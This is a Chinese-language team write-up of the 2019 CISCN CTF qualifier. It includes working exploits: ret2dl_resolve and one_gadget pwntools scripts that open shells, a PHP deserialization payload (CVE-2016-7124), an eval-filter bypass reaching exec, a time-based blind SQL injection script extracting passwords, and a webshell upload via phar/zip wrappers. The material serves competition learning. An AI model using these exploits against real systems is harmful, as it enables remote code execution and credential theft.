

# 2019 CISCN 初赛wp
打得很艰苦，神仙太多，自己太菜，最后排到了全国100多名，最后还把我们的逆向师傅累病了，祝他早点好吧。
## 签到
没啥好说的，面部识别，只要有三个人同框就有flag（一开始做题的师傅还在想怎么解包python
## babypwn
[0ctf2018 babystack原题](http://eternalsakura13.com/2018/04/01/babystack/)
改地址read的plt地址，改bss地址，改函数地址，直接就打通了
```python
#coding:utf-8
import sys
import roputils
from pwn import *

offset = 44
readplt = 0x08048390
bss = 0x0804a040
vulFunc = 0x804852d

p = process('../baby_pwn')
p = remote('39.97.228.196', 60005)
# context.log_level = 'debug'

def getReloc(elf, base):
    jmprel = elf.dynamic('JMPREL')
    relent = elf.dynamic('RELENT')

    addr_reloc, padlen_reloc = elf.align(base, jmprel, relent)
    reloc_offset = addr_reloc - jmprel
    return reloc_offset

rop = roputils.ROP('../baby_pwn')
addr_bss = rop.section('.bss')

# step1 : write sh & resolve struct to bss
buf1 = 'A' * offset #44
buf1 += p32(readplt) + p32(vulFunc) + p32(0) + p32(addr_bss) + p32(100)
p.send(buf1)

buf2 =  rop.string('/bin/sh')
buf2 += rop.fill(20, buf2)
buf2 += rop.dl_resolve_data(addr_bss+20, 'system')
buf2 += rop.fill(100, buf2)
p.send(buf2)

#step2 : use dl_resolve_call get system & system('/bin/sh')
buf3 = 'A'*44 + rop.dl_resolve_call(addr_bss+20, addr_bss)
p.send(buf3)
p.interactive()
```
## your_pwn


数组下表越界导致栈空间任意地址读写


读取栈上libc_start_main地址，得出是libc2.23-ubuntu11
泄露libc版本，计算基址，计算one_gadget，然后填写函数返回地址
```python
#!/usr/bin/env python2

from pwn import *
#from FILE import *

#context.log_level = 'debug'
context.terminal = ['terminator', '-e']
context.arch = ['amd64','x86_32'][0]

###############################################################################
#                                   CONFIG
###############################################################################
filename = "./pwn"
glibc_version = '2.24'
 
address = {'address': '39.97.228.196', 'port': 60007}
###############################################################################
#                                  LOAD ELF
###############################################################################
elf = ELF(filename)
libc = ELF('/home/{}/libc.so.6'.format(glibc_version))
###############################################################################
#                               Fancy attach -3-
###############################################################################
def attach(p, breaks=[]):
    if args['REMOTE']:
        return
    gdb.attach(p, '\n'.join(["b *%s"%(x,) for x in breaks]))
###############################################################################
if args['REMOTE']:
    p = remote(address['address'], address['port'])
else:
    p = process([filename])
###############################################################################

def leak(index,to_write=0):
    value = 0
    for i in range(0,7):
        p.sendlineafter('index\n',str(index+i))
        p.recv(15)
        temp = (int(p.recvuntil('\n')[:-1],16)%0x100)
        value = value + (temp<<(8*i))
        if to_write!=0:
    	    p.sendline(str(int((to_write/(1<<(i*8)))%0x100)))
	else:
	    p.sendline(str(int(temp)))
    return value

def empty():
    p.sendlineafter('index\n','0')
    p.recv(15)
    temp = (int(p.recvuntil('\n')[:-1],16)%0x100)
    p.sendline(str(int(temp)))


def main():
    #attach(p)
    p.sendafter('name:','name')
    libc_base = leak(632)-0xf0-0x020740

    leak(344,0x4526a+libc_base)

    success("libc_base:".ljust(20," ")+hex(libc_base))
    
    for i in range(27):
	empty()
    p.sendline('yes')
    
    p.interactive()

if __name__ == '__main__':
    main()
```
## JustSoso
发现file有文件包含漏洞，使用filter伪协议读取index.php和hint.php，得到源码。发现存在一个反序列化。构造Handle类和Flag类的成员变量，可以将**token这设置为token_flag的引用**来绕过getFlag()中的比较。绕过__wakeup，可以**将序列化之后的成员属性数目修改成大于实际数目**[CVE-2016-7124](https://xz.aliyun.com/t/378)。
```php
<?php  
class Handle{ 
    private $handle;
    public function __wakeup(){
		foreach(get_object_vars($this) as $k => $v) {
            $this->$k = null;
        }
        echo "Waking up\n";
    }
	public function __construct() { 
        $this->handle = new Flag; 
    } 
	public function __destruct(){
		$this->handle->getFlag();
	}
}

class Flag{
    public $file;
    public $token;
    public $token_flag;
 
    function __construct(){
		$this->file = 'flag.php';
		$this->token = &$this->token_flag;
    }
    
	public function getFlag(){
		$this->token_flag = md5(rand(1,10000));
        if($this->token === $this->token_flag)
		{
			if(isset($this->file)){
				echo @highlight_file($this->file,true); 
            }  
        }
    }
}

$payload = new Handle;
echo urlencode(serialize($payload));
echo "\n";
?>
```

最后利用parse_url的解析问题构造畸形url，绕过flag关键字检查

[parse_url的小trick](http://pupiles.com/%E8%B0%88%E8%B0%88parse_url.html)
## love_math
首先通过下发题目获取到了，页面是一个由php写的表达式计算器。经过F12打开后，找到它是GET请求了一个calc.php的文件，传入的参数是c。
1.	在浏览器直接访问calc.php，发现了它居然输出了自己的源码高亮。于是将源码拖下来进行分析。
2.	源码中，发现它是首先限制了字符串长度为79，同时过滤掉了一些奇怪的字符。通过多次尝试，发现它在符号上面很难去构建一个绕过这几个特殊字符的方式。
3.	下面是它的一些允许访问函数的白名单，白名单下有一些数学常用的函数。最下面执行的方式是eval直接解析源代码。所以大概就想可以通过现有的白名单内的函数和不使用过滤掉的特殊字符进行getshell。遗憾getshell需要拼接英文函数。同时它也用正则匹配了所有的英文、下划线以及不可见ascii码字符的内容，也就是说我不能随意定义变量来控制参数了。
4.	这时发现了base_convert是在白名单内唯一可以构建字符串的函数，首先它可以将一个纯英文字符串转化成16进制的数，于是大致第一步思路就是，可不可以通过传入10进制数字通过base_convert转换为高进制的数字（字符串）呢？
5.	查阅php文档，只要能传入一个字符串，就可以让其成为函数名进行动态函数调用。于是就使用`base_convert(xxx,36,10)(yyy)`对动态
6.	但此时发现了一个问题，就是base_convert最高转成36进制，也就是能且只能拼出来所有纯小写英文字母的函数，不能有下划线。
7.	所以从PHP手册里找到了exec，getallheaders没有特殊下划线，可以用base_convert构造。也就是通过传一个自定义的可控header进行传入更长的内容来突破80长度的限制。
8.	于是大致思路就是：使用`base_convert`构建函数`exec(getallheaders()[key])`，同时尽可能缩短。
9.	比如对于getallheaders(30进制)可以表示为8768397090111664438(10进制)，从而绕过函数名的正则匹配。
10.	其中因为base_convert也比较长，所以想办法用动态函数的方法把base_convert也缩短，这样重复使用就可以减少占用了。例如：`$pi=base_convert`;（因为前面过滤了引号所以利用PHP的未知常亮当字符串的特性进行字符串声明）。然后后面使用`base_convert`只需用`$pi()`进行替代即可。
11.	但对取getallheaders返回的数组，因为前面把方括号ban掉了，所以这里就采用花括号取数组（题目代码中没有过滤花括号{}）。根据白名单函数的限制，我选用一个白名单函数得名称作为自定义头作为可控输入即可。
12.	所以最后的payload就是：`$pi=base_convert,$pi(588892,10,34)($pi(8768397090111664438,10,30)(){sin})`
13.	经过测试，发现这次的payload符合80个以内的字符，所以一试，果然可以。然后使用postman进行头部构造，指定sin头部，然后输入指令cat flag.php即可返回flag内容。

## 全宇宙最简单的SQL
出题人大骗子，一点也不简单。很直接的sql注入，过滤了**or，||，sleep，benchmark，get_lock**，由于没有回显，所以只能考虑，布尔注入或者延时注入。表哥发给我一个延时注入的新思路[MySQL时间盲注五种延时方法](https://www.cdxy.me/?p=789)，结果上面提到的大部分都被滤掉了（可恶）。

尝试了一下用很长的字符串走正则造成延时，效果不加（可能是网络质量太差，看不出延时差），然后杨表哥想出用超长字符串计算md5产生延时，在比赛期间测量延时能达到900ms，而且**似乎**md5计算有缓存，直接计算过的md5再计算就非常的快。就靠着这个琢磨不定的延时注入，我们成功测量出了用户名和**密码长度**，没有测出来密码是什么，延时太不稳定了。

在这其中我们还遇到一个问题就是，password中间包含or，导致不能直接查询这个字段的内容，这个就用到了之前学到的[在不知道列名的情况下进行注入](https://nosec.org/home/detail/2245.html)

产生这样的payload
```
asd' and SUBSTR((select \`2\` from (select 1,2 union select * from user)a limit 1,1),1,1) = 'f' and md5(concat(rpad(1,999999,'u8y'),rpad(1,999999,'r465i'),rpad(1,999999,'a'),rpad(1,999999,''),rpad(1,999999,'a'),rpad(1,999999,'sda'),rpad(1,999999,'fea'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'r34a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'234234a'),rpad(1,999999,'234324a'),rpad(1,999999,'a'),rpad(1,999999,'a'))) --
```

结果，比赛一结束，流量一下来我们发现。。。md5产生的延时大概只有60ms，而且重复计算同一字符串并不会被缓存，我跟另一个做这个题的师傅差点气死在屋子里。

赛后我写出来一个脚本
```python
# !/usr/bin/env python
#  -*- coding: utf-8 -*-
import requests
from requests.exceptions import ReadTimeout, ConnectionError
from urllib import quote
import time
import re

payloads = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!-_'

url = 'http://39.97.167.120:52105'
# url = 'http://localhost:8090/article.php?id='

# 60ms
sleep_func = "md5(concat(rpad(1,999999,'u878uy'),rpad(1,999999,'i'),rpad(1,999999,'7u6'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'sda'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'234234a'),rpad(1,999999,'234324a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')))"


def run_sort(query):
    def brute_single_char(target_index):
        for c in payloads:
            flag = 1
            for i in range(3):
                payload = "1' and ASCII(SUBSTR({},{},1))={} and {} -- ".format(query, target_index, ord(c), sleep_func)
                print(payload)
                data = {
                    "username":payload,
                    "password":"123"
                    }
                req = requests.post(url,data)
                
                if(req.elapsed.microseconds < 150000):
                    flag = 0
                    break
            if flag:
                print(c,'=',req.elapsed.microseconds)
                return c
        return None

    result = []
    try:
        for index in range(1, 28):
            print '________INDEX {}_______'.format(index)
            result.append(brute_single_char(index))
    except KeyboardInterrupt:
        print result
    print result

if __name__ == '__main__':
    #run_sort('(select `2` from (select 1,2 union select * from user)a limit 1,1)')
    run_sort('(select password FROM mysql.user limit 1,1)')


```
成功注入出来，admin的密码：**F1AG@1s-at_/fll1llag_h3r3**

登陆上去我蒙了，让我输入mysql服务器他去链接，完全没做过。

赛后知道这个是ddctf出的sql题目（正好没做，叹气）
[利用MySQL来手动读文件](https://github.com/allyshka/Rogue-MySql-Server/)

不过也可以利用逻辑运算符和溢出报错来进行注入，例如这里我们用 pow(9999,100) ，这个表达式的值在 MYSQL 中已经超出 double 范围，会溢出。如下图，当我们盲注语句结果为真时，就会执行到溢出语句，返回结果为 数据库操作失败 ；当我们盲注语句结果为假时，由于 and短路运算 ，根本不会执行到溢出语句，所以返回结果为 登陆失败 。

菜了菜了
## RefSpace
上来扫目录得到一个backup.zip，里面有一个文件叫**sdk开发文档**，提到了这么一句话**几乎大部分源码内都有一定的hint，如果您是通过扫描目录发现本文件的，您可能还有很长的路要走。**，怕了怕了我认输还不行吗

index.php的route参数存在LFI，构造伪协议读取源码，有app_index.php，Up10aD.php，其中Up10aD存在上传，他会在文件名后面自动加.jpg，而且他是通过`$_FILES["file"]["name"]`获取文件名的，不存在`../`或者apache的文件解析漏洞，前面LFI会在文件名末尾自动添加`.php`，突然想到之前遇到的一道题目，通过使用zip或者phar伪协议绕过，[具体方法参考](https://bl4ck.in/tricks/2015/06/10/zip%E6%88%96phar%E5%8D%8F%E8%AE%AE%E5%8C%85%E5%90%AB%E6%96%87%E4%BB%B6.html)，然后马就上去了，蚁剑就连上了，连上。。。就把他服务器翻了一遍，发现了\ctf\sdk.php，一个被SourceGuardian加密的源码，打扰了，事实上，比赛到这里也结束了。

赛后，发现对这个SourceGuardian加密的源码有两种破解方法：
1. ROIS的内核魔改法，[参考](https://xz.aliyun.com/t/4906#toc-10)，具体方法就是修改zend_is_identical的返回值，然他永远返回1，让所有变量都想等（不愧是ROIS，骚的不行）
2. 另一种方法就是通过命名空间，定义一个同名函数 sha1 ，在代码调用时，会优先调用本命名空间中的同名函数。[参考](https://xz.aliyun.com/t/4904#toc-3)
其实我当时也想到了同名函数覆盖，定义一个`interesting\FlagSDK`的子类，覆盖getHash函数，可能是因为getHash是私有方法吧，看来覆盖sha1才是正解。

## puzzles
1. Part0 解方程

a1=4006

a2=3053

a3=2503

a4=2560

2. Part1

发现其他三个数字都是质数，于是开始查质数表，根据数字在质数表中位置差的等差关系，得到26365399

3. Part2 

用在线工具算的 7700

4. Part3

U=B∆Φ/∆t

=B2πr∆r/∆t

=4*2*π*2*5=Part3*π/233

∴Part3=18640

5. Part4


∴Part4 = 40320

~~除了静爷nb我还能说什么呢~~
## warmup
发现这个AES是CTR模式，搜了搜CTR的原理：用密钥对输入的计数器加密，然后同明文异或得到密文。所以我们得到的密文就是明文通过多轮异或运算得到的。nc上去输入明文之后可以得到密文，在同一个过程中密钥和计数器的值是不变的，所以通过明文plaintext和密文ciphertext异或一下就可以得到过程中多轮密钥异或后的值keyset_xor。
注意到这句： `return cipher.encrypt(pad(plaintext + flag))`
所以只要把密文用keyset_xor异或回去就能得到flag。


lag的长度是42字节，pad之后是48字节。这里输入了48个a作为plaintext，result的前96位为ciphertext。`plaintext⊕ciphertext=keyset_xor`接着直接输入回车，得到的result就是flag后面补了6个0x06之后encrypt的结果`result⊕keyset_xor=flag+'\x06'*6`


## Asymmetric
base64解码成16进制得到enc。txt文件已经给出了pubkey所以generate_key函数就没什么用了。主要看加密函数，是类似于RSA加密的东西。

写个脚本跑一下(这里n分解质因数是一个大数的四次方)

## saleae
根据文件名提示找到Saleae Logic公司官网，下载分析软件，打开文件，根据波形的特征（0通道8个一组的脉冲）选择SPI协议进行解码，其中时钟通道选择0通道，解码得到flag


## 24c
依然是Saleae Logic，根据文件名进行搜索，发现24c很可能是指一系列芯片，查找相关内容，发现应该使用I2C协议进行解码，发现包含flag片段。但是顺序和长度(推测为uuid格式)都不正确，查阅协议的相关信息，发现发送的内容应该带有开始读写的地址，据此将flag片段组合得到flag。Flag截图中片段下方数字为读写位置。


## easyGo
根据题目名称猜测是go语言逆向，拖进ida，发现go语言其一特征——连成一片的字符串，大略一看，找到几个base64码表和两个奇怪字符串。网上搜个脚本把函数名称恢复，一看，base64…DecodeString memequal，分别断下看看有什么吧。断在调用疑似base64解码函数处，单步，发现flag。测一下确实能过。 [重命名脚本 来自gitlab](https://gitlab.com/zaytsevgu/goutils/blob/master/go_renamer.py)


## bbvvmm
太长不看版本：用户名部分，逆向发现魔改base64然后搜索常数发现加密算法为SM4，密钥写在程序中非常显眼的地方，解密得到用户名badrer12；密码部分在+x5b25函数中初始化vm，+x6607函数中将输入的6字节密码经过vm解密，结果存放于+x9258处指针偏移25*4处int值中，懒得看着两百函数的vm所以测试几个值之后找到一组值使得结果为0；综合前两步，得到能在本地通过测试的输入。之后pwntools写脚本连接远程得到flag。

详细版本：用户名部分，输入%9s的字符串，但是之后的处理均按照8字节考虑，所以长度应为8；下一个处理用户名的函数是+x66C0，这个函数非常清晰的将第一个参数字符串（即用户名）的前8个字节逐字节的转换成两位16进制字符串（大写）存放于第二个参数字符串的前16字节空间；接下来处理用户名字符串的是函数+x18C4，但是这个函数十分奇怪，传入的第二第三个参数分别是常数1和常数16，这两个参数恰恰影响着函数流程，当整个函数的大部分是不执行的，因此怀疑这个函数会不会是什么公开的加密或者编码算法；


与用户名十六进制字符串异或的v10数组，向前寻找v10的值的来源，找到+x1738函数然后继续跟进，发现其中使用了四个常数，根据前面的猜测，搜索这四个常数，找到了出题人的博客？？？验证过算法中 使用的所有常数均没有修改之后，突然发现出题人博客中的样例使用的加密密钥仿佛在本题的主函数中出现过，比较之后更加确定了这是出题人博客；所以寻找一个SM4的解密算法实现，然后……；然后下一个函数+x67BD是另一个实现的字符串转十六进制字符串；然后下一个函数是求长度；下一个函数看起来很像base64，比如说循环到3、右移6位等，但是编码使用的码表并不是标准的码表；然后终于是验证函数了，strcmp；所以将这一套逆回去，终于得到用户名badrer12。

密码部分，初始化一个庞大的结构，然后输入6字节密码，然后按照一定逻辑执行虚拟机，最后取出一个整数作为结果，因为大概出题人不是神仙，所以单独拿出来的密码大约是作为vm的数据而非代码（因为虚拟机利用函数指针和指令号决定执行流程而只有可见字符的输入密码不太适合作为流程控制，同时反之也难以保证题目不会出现多解），这vm真就命令标号到两百啊……看不动啊，自闭啊，然后其他题也都做不出，所以我就选择了一个比较特殊的方法：测试几组输入，观察最后需要比较的那一个整数的变化。首先固定其他位置，尝试第一位应该为什么值使得结果最小，以下是部分测试以及结果，前几组测完之后明显感觉并不是按照ascii递增顺序变化，于是我打开了ascii码表（结果反而被坑了，误以为p才是可能使取值最小的字符）几番尝试之后发现任意位置的单个字符变化基本满足"结果的差值=0x10*(字符高半字节差值)+(低字节按照[8-F0-7]重新排序之后的位置差值)"(好好的汉语给我写碎了)；但是还有一部分字符变化的时候不满足这个规则怎么办呢？多尝试了一些输入之后，我发现似乎特殊情况和字符值(前面那个规则下的值)的连续下降有关，例如字符全都一样会比理论值大5+4+3+2+1=0xf,这个值恰恰是每个字符前面有几个小于等于本字符的，几番尝试之后，终于找到了结果为零的输入：xyz{|}

其实flag一直都在字母表最后写着。然后发现本地通了远程不通，猜测是因为printf中的特殊字符或者是read的特性，尝试过nc打log，记录下连接的过程但是没用，不得已使用pwntools来进行连接，终于拿到flag。


## 总结
这场比赛打得非常的累，整整持续两天，幸好给了一个睡觉的时间，否则真的得肝死在159。最后的成绩大概是华东南赛区14名的样子，我们解题模式还算不错，知识竞赛拉了不少分（可惜），不过神仙队真的是神仙队，什么题都能做出来。逆向这边还是缺人，一场比赛下来累倒了一个逆向师傅，唉。
